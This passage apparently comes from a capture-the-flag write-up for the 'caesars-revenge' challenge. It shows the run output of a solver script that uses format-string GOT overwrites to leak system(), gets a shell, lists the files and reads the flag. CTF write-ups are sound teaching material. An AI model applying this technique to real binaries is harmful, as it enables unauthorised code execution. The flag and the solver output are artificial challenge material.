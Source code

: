 - https://github.com/zst-ctf/angstromctf-2019-writeups/tree/master/Solved/Returns

Put to server

    # python3 solver.py 
    >> Exploit: puts@GOT() -> caesar()
    >> Leaked system(): 0x7ff5e7b61ac0
    >> Exploit: __stack_chk_fail@GOT() -> system()
    >> Exploit: printf@GOT() -> __stack_chk_fail@PLT()
    Enter text to be encoded: Enter number of characters to shift: Result:  

     0x404038          8@@sh: 1: Enter: not found
        /bin/sh;
    sh: 1: Enter: not found
        /bin/sh;
    sh: 1: Please: not found
        26
    sh: 1: Result:: not found
        ls -la
        total 68
        drwxr-x--- 1 0 1000  4096 Jun  3 15:10 .
        drwxr-x--- 1 0 1000  4096 Jun  3 15:10 ..
        -rwxr-x--- 1 0 1000   220 Aug 31  2015 .bash_logout
        -rwxr-x--- 1 0 1000  3771 Aug 31  2015 .bashrc
        -rwxr-x--- 1 0 1000   655 May 16  2017 .profile
        drwxr-x--- 1 0 1000  4096 Jun  1 20:11 bin
        -rwxr-x--- 1 0 1000 17096 Jun  3 11:32 caesars-revenge
        -rwxr-x--- 1 0 1000  1458 Jun  3 04:02 caesars-revenge.c
        drwxr-x--- 1 0 1000  4096 Jun  1 20:11 dev
        -rwxr----- 1 0 1000    48 Jun  3 15:09 flag
        drwxr-x--- 1 0 1000  4096 Jun  1 20:11 lib
        drwxr-x--- 1 0 1000  4096 Jun  1 20:11 lib32
        drwxr-x--- 1 0 1000  4096 Jun  1 20:11 lib64
        cat flag
        hsctf{should_have_left_%n_back_in_ancient_rome}


## Flag

    hsctf{should_have_left_%n_back_in_ancient_rome}
